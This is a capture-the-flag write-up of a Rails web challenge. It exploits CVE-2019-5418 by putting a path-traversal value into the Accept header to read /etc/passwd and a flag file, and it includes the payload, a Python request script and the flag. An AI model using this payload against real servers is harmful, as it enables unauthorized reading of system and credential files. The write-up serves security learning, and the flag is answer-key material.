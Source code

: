 # rubies

> **Category**: Web
> **Author**: Stefan

## TL;DR
Exploiting CVE-2019-5418

---

## Challenge Description
The challenge name was "rubies" and we had an image with a ruby. The website title, when base64 decoded, was "rails". Clicking on the image brought me to `/vuln` and returned a 500 server error.

<img src="https://i.imgur.com/G3dmPpJ.png" alt="Writeup_image_1" width="400"/>

## Solution
### Step 1: Identifying the CVE
After some investigation, I looked through the CVEs for Ruby on Rails on cvedetails.com but found nothing relevant. I then googled `ruby rails cve "poc"` (PoC – Proof of Concept), which led us to CVE-2019-5418.

### Step 2: Exploiting the Vulnerability
The vulnerable path was `/vuln`, and we found the [CVE-2019-5418 GitHub repository](https://github.com/mpgn/CVE-2019-5418). By changing the `Accept` header, we could retrieve files from the server.

<img src="https://i.imgur.com/MIHu9dr.png" alt="Writeup_image_2" width="700"/>

### Step 3: Finding the Flag
To identify the flag file path, I first looked into `/etc/passwd`, as the CVE example did. There, I found a user named "gem" with a corresponding home directory, suggesting that the flag might be in that directory.

The payload I used was `../../../../../../../home/gem/flag.txt{{`.

<img src="https://i.imgur.com/y06p0rb.png" alt="Writeup_image_3" width="800"/>

## Script
```python
import requests

url = "http://34.107.71.117:30786/vuln"
headers = {
    "Upgrade-Insecure-Requests": "1",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36",
    "Accept": "../../../../../../../home/gem/flag.txt{{",
    "Accept-Encoding": "gzip, deflate, br",
    "Accept-Language": "en-US,en;q=0.9",
    "Connection": "close"
}

response = requests.get(url, headers=headers)
print(response.text)
```

## Flag
`CTF{C5547BAA6CE135850B3A728D442925F1AE63F2BF22301676282958A0CE5FAE59}`